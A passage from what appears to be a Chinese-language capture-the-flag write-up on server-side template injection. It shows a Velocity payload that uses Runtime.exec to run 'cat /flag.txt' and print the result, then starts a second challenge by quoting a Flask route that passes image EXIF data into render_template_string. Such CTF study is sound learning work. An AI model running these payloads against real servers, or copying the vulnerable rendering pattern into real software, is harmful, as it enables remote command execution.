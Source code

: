 ```
text=#set ($run=1 + 1) $run 
```

![image-20250831105644823](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831114832588.png)

执行成功输出2，我们继续命令执行

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('cat /flag.txt'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

这个关于这个Java的模板注入后续还得深入学习一下





### Guild 公会

> Welcome to the Guild ! But please wait until our Guild Master verify you. Thanks for the wait
> 欢迎加入公会！但请耐心等待公会大师验证您。感谢您的等待

这道题有点难操作很费时间，但也是ssti，我们分析一下漏洞点

```py
@views.route("/verify",methods=["GET", "POST"])
@login_required
def verify():
    if current_user.username == "admin":
        if request.method == "POST":
            user_id = request.form.get("user_id")
            verf_id = request.form.get("verification_id")
            query = Verification.query.filter_by(id=verf_id).first()
            
            img = Image.open(query.doc)

            exif_table={}

            for k, v in img.getexif().items():
                tag = TAGS.get(k)
                exif_table[tag]=v

            if "Artist" in exif_table.keys():
                sec_code = exif_table["Artist"]
                query.verified = 1
                db.session.commit()
                return render_template_string("Verified! {}".format(sec_code))
            else:
                return render_template_string("Not Verified! :(")
    else:
        flash("Oops", category="error")
        return redirect(url_for("views.home"))
```
